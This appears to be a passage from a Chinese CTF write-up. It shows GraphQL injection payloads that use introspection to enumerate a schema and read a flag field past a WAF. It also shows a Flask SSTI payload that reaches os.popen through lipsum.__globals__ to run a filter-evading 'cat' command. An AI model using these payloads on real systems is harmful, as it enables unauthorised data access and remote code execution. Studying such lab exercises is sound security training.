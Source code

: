 GraphQL 注入

参考文章 [https://blog.csdn.net/m0_51326092/article/details/119887029](https://blog.csdn.net/m0_51326092/article/details/119887029)

虽然有 waf 过滤, 但我们可以通过 ` $_POST['data']` 自定义 `$data`, 然后进行查询

查表

```
id=1&data={"query":"{
  __schema {
    types {
      name
    }
  }
}", "variables":null}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031724808.png)

关注第一个就行

查字段的 payload 怎么都用不了, 于是随便猜了个 flag 字段竟然对了...

```
id=1&data={"query":"{
  ffffllllaaagggg_1n_h3r3_flag {
    flag
  }
}", "variables":null}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031730530.png)

## Week3 Web

### BabySSTI_One

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031748957.png)

flask ssti

试了下发现 class 关键字被过滤了

然后利用 config request url_for 这些 object 会爆 500, 不知道什么情况

最后找到个 lipsum 能用

```python
{{lipsum.__globals__['__builtins__']['__import__']('os').popen('ca'+'t /fl'+'ag_in_here ').read()}}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031751868.png)

### IncludeTwo
